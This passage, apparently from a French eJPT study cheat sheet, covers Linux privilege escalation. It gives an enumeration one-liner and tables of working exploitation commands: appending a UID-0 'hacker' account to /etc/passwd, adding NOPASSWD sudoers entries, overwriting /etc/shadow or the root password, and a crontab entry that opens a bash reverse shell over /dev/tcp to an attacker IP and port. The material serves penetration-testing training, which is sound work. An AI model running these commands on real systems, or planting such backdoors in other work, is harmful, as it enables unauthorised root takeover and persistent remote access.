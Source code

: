### ⭐ Escalation vectors courants eJPT
- **Sudo misconfiguration** (`sudo -l`)
- **SUID binaries** (GTFOBins)
- **Writable cron jobs**
- **Path hijacking**
- **Kernel exploits**

---

## 📝 15. Aide-mémoire complet

```bash
# Énumération complète en une commande
echo "USER: $(whoami) | UID: $(id -u) | GROUPS: $(groups)" && echo "SYSTEM: $(uname -a)" && echo "SUDO: $(sudo -l 2>/dev/null)" && echo "SUID: $(find / -perm -4000 2>/dev/null | wc -l) files" && echo "CRON: $(cat /etc/crontab 2>/dev/null | grep -v '^#' | wc -l) jobs"
```

## 🚨 16. Misconfigurations critiques à vérifier

### 🔴 Fichiers système modifiables (CRITIQUE)
| Fichier | Commande de vérification | Exploitation si writable |
|---------|-------------------------|-------------------------|
| **`/etc/passwd`** | `ls -la /etc/passwd` | Ajouter utilisateur root: `echo 'hacker:x:0:0:root:/root:/bin/bash' >> /etc/passwd` |
| **`/etc/shadow`** | `ls -la /etc/shadow` | Modifier hash root ou ajouter utilisateur |
| **`/etc/sudoers`** | `ls -la /etc/sudoers` | Ajouter: `username ALL=(ALL) NOPASSWD:ALL` |
| **`/etc/crontab`** | `ls -la /etc/crontab` | Ajouter: `* * * * * root /bin/bash -i >& /dev/tcp/ip/port 0>&1` |
| **`/etc/hosts`** | `ls -la /etc/hosts` | Rediriger domaines critiques |
| **`/etc/fstab`** | `ls -la /etc/fstab` | Monter partitions avec options dangereuses |

### 🔴 Modification directe du mot de passe root
| Méthode | Commande | Conditions |
|---------|----------|-----------|
| **Passwd writable** | `echo 'root:password123' \| chpasswd` | Si /etc/passwd writable + chpasswd disponible |
| **Shadow writable** | `echo 'root:$6$salt$hash' > /tmp/shadow && cp /tmp/shadow /etc/shadow` | Si /etc/shadow writable |
| **Usermod** | `usermod -p '$6$salt$hash' root` | Si usermod disponible avec privilèges |
| **Passwd sans root** | `echo -e "newpass\nnewpass" \| passwd` | Si dans groupe shadow |

### 🔴 Ajout d'utilisateur root alternatif
| Méthode | Commande | Description |
|---------|----------|-------------|
| **User UID 0** | `echo 'hacker::0:0::/root:/bin/bash' >> /etc/passwd` | Utilisateur avec UID 0 (root) |
| **Group wheel** | `usermod -aG wheel username` | Ajouter au groupe admin |
| **Sudo sans password** | `echo 'username ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers` | Sudo sans mot de passe |
